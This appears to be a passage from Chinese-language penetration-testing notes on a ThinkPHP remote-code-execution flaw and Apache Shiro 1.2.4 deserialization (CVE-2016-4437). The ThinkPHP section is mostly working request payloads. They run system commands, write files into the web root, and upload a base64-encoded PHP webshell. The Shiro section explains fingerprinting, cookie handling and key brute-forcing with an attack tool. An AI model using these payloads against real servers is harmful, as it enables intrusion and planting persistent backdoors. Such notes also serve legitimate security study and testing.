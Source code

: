     * 执行命令

        `_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id`

    * 写入phpinfo
        
        `执行pwd获取绝对路径:/var/www/public`

        `echo "<?php phpinfo(); ?>" > /var/www/public/test.php`
        
        `echo%20"<?php%20phpinfo();%20?>"%20>%20/var/www/public/test.php`

    * 查看是否写入

        1、`ls%20-al`
        2、`cat%20/var/www/public/test.php`
        3、`http://192.168.253.147:8080/test.php`
 
    * 上传shell

        `_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=echo%20-n%20YWFhPD9waHAgQGFzc2VydCgkX1JFUVVFU1RbJzEyMyddKTsgPz5iYmI=%20|%20base64%20-d>%20/var/www/public/pass.php`

* 原理

    看第一篇参考文章吧

# Apache Shiro

##  Apache Shiro 1.2.4反序列化漏洞(CVE-2016-4437)

>[参考文章](https://www.freebuf.com/vuls/283810.html)
>[参考文章]https://blog.csdn.net/sally717/article/details/124349393

* 特征

    返回包的set-cookie中有`rememberme=deleteme`字段

* 原理

    Apache Shiro 是 Java 的一个安全框架，可以帮助我们完成：认证、授权、加密、会话管理、与 Web 集成、缓存等功能，应用十分广泛。

    Shiro最有名的漏洞就是反序列化漏洞了，加密的用户信息序列化后存储在名为remember-me的Cookie中，攻击者使用Shiro的默认密钥伪造用户Cookie，触发Java反序列化漏洞，进而在目标机器上执行任意命令。


* 对cookie处理过程

    1.信息序列化
    2.AES加密
    3.base64加密
    4.设置到cookie里

    关键点在于加密使用的密钥

* 工具

    shiro_attack

    先爆破密钥，再利用链进行其他功能
